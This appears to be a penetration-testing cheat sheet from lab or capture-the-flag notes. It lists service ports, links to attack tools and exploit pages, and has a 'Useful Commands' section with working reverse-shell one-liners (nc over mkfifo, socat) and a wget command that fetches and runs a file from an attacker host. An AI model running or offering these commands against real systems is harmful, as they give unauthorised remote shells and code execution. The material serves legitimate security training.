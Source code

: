 # CheatSheet

## Ports
| Service | Port      |
|:-------:|:---------:|
| FTP     | 20 / 21   |
| SSH     | 22        |
| Telnet  | 23        |
| SMTP    | 25        |
| DNS     | 53        |
| HTTP    | 80        |
| POP3    | 110       |
| HTTPS   | 443       |
| SMB     | 139 / 445 |
| NFS     | 2049      |
| MySQL   | 3306      |

## Tools
- [Rustscan](rustscan.md)
- [Nmap](nmap.md)
- [MSFVenom](msfvenom.md)
- [Gobuster](gobuster.md)
- [Hydra](hydra.md)
- [John the Ripper](john.md)
- [Hashcat](hashcat.md)

## Exploit by service
- [SSH](ssh.md)
- [SMB](smb.md)
- [Telnet](telnet.md)
- [NFS](nfs.md)
- [FTP](ftp.md)
- [SMTP](smtp.md)
- [MySQL](mysql.md)

## Useful Commands
Generate shell payload
```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

Download file from local Web server on kali
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; sh /tmp/$FILE
```

### Socat
・Target Host  
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

・Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

Additional Settings :
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

## CVEs
- CVE : 2014-6287 ([39161](cve-2014-6287-39161.md))
- CVE : 2014-6287 ([49125](cve-2014-6287-49125.md))


## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

GTFOBins  
https://gtfobins.github.io/

PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

CyberChef  
https://gchq.github.io/CyberChef/

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
